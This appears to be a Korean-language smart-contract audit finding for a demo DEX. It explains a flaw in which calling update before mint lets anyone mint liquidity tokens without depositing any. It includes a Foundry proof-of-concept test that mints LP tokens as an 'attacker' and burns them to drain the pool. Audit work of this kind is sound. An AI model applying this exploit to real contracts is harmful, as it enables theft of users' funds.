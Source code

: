 ```solidity

    require(liquidity > 0, "INSUFFICIENT_LIQUIDITY_MINTED");

    _mint(_to, liquidity);
    update(balanceX, balanceY);
}
```

update 후 mint를 호출하게 되면, update 된 reserveX, Y를 getReserves 함수를 통해 가져오고, 그 값을 이용해 liquidity 양을 계산합니다. 따라서, 실제로 토큰을 공급하지 않더라도 liquidity token을 mint할 수 있습니다.

### 파급력

자금의 무분별한 유출이 발생할 수 있습니다.

```solidity
function setUp() public {
    tokenX = new CustomERC20("X");
    tokenY = new CustomERC20("Y");
    dex = new Dex(address(tokenX), address(tokenY));
    tokenX.approve(address(dex), type(uint256).max);
    tokenY.approve(address(dex), type(uint256).max);

    dex.addLiquidity(8888888888 ether, 7777777777 ether, 0);
}

function test_update() public {
    address attacker = address(0x44);
    vm.startPrank(attacker);
    console.log("previous LP.balanceOf: ", dex.balanceOf(attacker));
    console.log("previous X.balanceOf: ", tokenX.balanceOf(attacker));
    console.log("previous Y.balanceOf: ", tokenY.balanceOf(attacker));

    dex.update(8 ether, 7 ether);
    dex.mint(attacker);

    dex.update(8 ether, 7 ether);
    dex.mint(address(dex));
    console.log("after LP.balanceOf: ", dex.balanceOf(attacker));
    console.log("after dex X.balanceOf: ", tokenX.balanceOf(address(dex)));
    console.log("after dex Y.balanceOf: ", tokenY.balanceOf(address(dex)));

    console.log("________removeLiquidity________");

    dex.burn(dex.balanceOf(attacker));

    console.log("after X.balanceOf: ", tokenX.balanceOf(attacker));
    console.log("after Y.balanceOf: ", tokenY.balanceOf(attacker));

    console.log("after dex X.balanceOf: ", tokenX.balanceOf(address(dex)));
    console.log("after dex Y.balanceOf: ", tokenY.balanceOf(address(dex)));
    
    vm.stopPrank();
}
```
